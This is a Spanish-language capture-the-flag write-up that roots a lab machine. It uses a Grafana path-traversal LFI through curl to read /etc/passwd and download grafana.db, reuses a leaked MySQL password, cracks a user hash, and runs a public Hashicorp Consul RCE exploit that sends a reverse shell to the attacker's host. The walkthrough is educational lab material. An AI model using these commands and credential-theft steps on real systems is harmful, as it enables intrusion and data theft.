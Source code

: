 # Summary
- IP: 10.10.11.183
- Ports: 22,80,3000,3306
- OS: Linux (Ubuntu)
- Services & Applications:
	-  22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
	-  80 -> Apache httpd 2.4.41
	-  3000 -> ppp?
	-  3306 -> MySQL 8.0.30-0ubuntu0.20.04.2

# Recon
- Reconocimiento básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` 
$sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.116.216 -oN targeted
``` 

- Búsqueda de directorios, pero no encontramos nada interesante; analizamos la web y tampoco hay nada relevante.
- Analizamos la web en el puerto 3000 y vemos un login de "Grafana", buscamos vulnerabilidades y encontramos una script en python la cual permite un LFI, analizamos el código y ejecutamos mediante un curl la parte que nos permite ejecutar el LFI:


```
#curl -s --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd | grep sh
```

- Confirmamos el LFI y hacemos una búsqueda básica de posibles vectores de ataque; intentamos descargar la base de datos que está por detrás de grafana usando el siguiente recurso:


```
#curl -s --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```

- Abrimos el archivo ".db" con "sqlitebrowser" y analizamos la base de datos; vemos una tabla llamada "data-source", le hacemos un "table browse" y encontramos el usuario y contraseña para acceder a la base de datos de "grafana", lo hacemos:

```
#mysql -h10.10.11.183 -ugrafana -pdontStandSoCloseToMe63221!
```

- Buscamos información relevante:

```
show databes;
use whackywidget;
show tables;
select * from users;
```

- Encontramos el usuario "developer" con un hash, lo crackeamos en www.hashes.com y accedemos por SSH como "developer", y encontramos la primera flag.

# ESCALANDO PRIVILEGIOS:


- Haciendo una búsqueda típica, no encontramos nada que pueda usarse para escalar privilegios, así que buscamos de forma más rigurosa.

- En el directorio "/opt" encontramos una posible aplicación desarrollada en git llamada "my-app", entramos y buscamos archivos ocultos.

- Vemos un ".git" por lo que confirmamos que se trata de un desarrollo para github, ejecutamos el comando siguiente para verificar el log:

git log

- Vemos varios commits, analizamos el primero con:

```
git show 33a53ef9a207976d5ceceddc41a199558843bf3c
```

- Podemos ver un código en el que se involucra la función "consul" y un token que podríamos aprovechar ya que con un "ls -l" podemos ver que todo este aplicativo está gestionado por root; buscamos exploits para aprovechar esta función consul y encontramos el siguiente: [GatoGamer1155/Hashicorp-Consul-RCE-via-API: Exploit of RCE for gain reverse shell (bash) in Hashicorp Consul on Remote Command Execution via API (github.com)](https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API)

- Descargamos el exploit, lo pasamos a la máquina víctima, y lo ejecutamos poniéndonos en escucha en la máquina atacante:

```
$ python3 exploit.py --lhost 10.10.14.30 --lport 443 --token bb03b43b-1d81-d62b-24b5-39540ee469b5
```

- Accedemos a una shell como root y vemos la última flag.




